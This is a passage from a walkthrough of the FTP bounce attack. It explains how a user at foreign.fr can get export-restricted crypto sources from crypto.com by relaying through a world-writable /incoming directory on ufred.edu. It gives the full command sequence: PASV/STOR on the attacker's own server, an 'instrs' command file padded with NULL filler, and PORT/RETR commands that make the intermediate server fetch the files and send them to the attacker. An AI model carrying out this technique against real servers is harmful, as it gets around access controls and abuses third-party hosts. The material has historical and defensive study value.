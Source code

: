 Imagine that you are a user on foreign.fr, IP address F.F.F.F, and want to retrieve cryptographic source code from crypto.com in the US. The FTP server at crypto.com is set up to allow your connection, but deny access to the crypto sources because your source IP address is that of a non-US site \[as near as their FTP server can determine from the DNS, that is]. In any case, you cannot directly retrieve what you want from crypto.com's server.

However, crypto.com will allow ufred.edu to download crypto sources because ufred.edu is in the US too. You happen to know that /incoming on ufred.edu is a world-writeable directory that any anonymous user can drop files into and read them back from. Crypto.com's IP address is C.C.C.C.

### The Attack

This assumes you have an FTP server that does passive mode. Open an FTP connection to your own machine's real IP address \[not localhost] and log in. Change to a convenient directory that you have write access to, and then do:

```
quote "pasv"
quote "stor foobar"
```

Take note of the address and port that are returned from the PASV command, F,F,F,F,X,X. This FTP session will now hang, so background it or flip to another window or something to proceed with the rest of this.

Construct a file containing FTP server commands. Let's call this file "`instrs`". It will look like this:

```
user ftp
pass -anonymous@
cwd /export-restricted-crypto
type i
port F,F,F,F,X,X
retr crypto.tar.Z
quit
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@^@ ... ^@^@^@^@
...
```

F,F,F,F,X,X is the same address and port that your own machine handed you on the first connection. The trash at the end is extra lines you create, each containing 250 NULLS and nothing else, enough to fill up about 60K of extra data. The reason for this filler is explained later.

Open an FTP connection to ufred.edu, log in anonymously, and cd to /incoming. Now type the following into this FTP session, which transfers a copy of your "`instrs`" file over and then tells ufred.edu's FTP server to connect to crypto.com's FTP server using your file as the commands:

```
put instrs
quote "port C,C,C,C,0,21"
quote "retr instrs"
```

### nmap
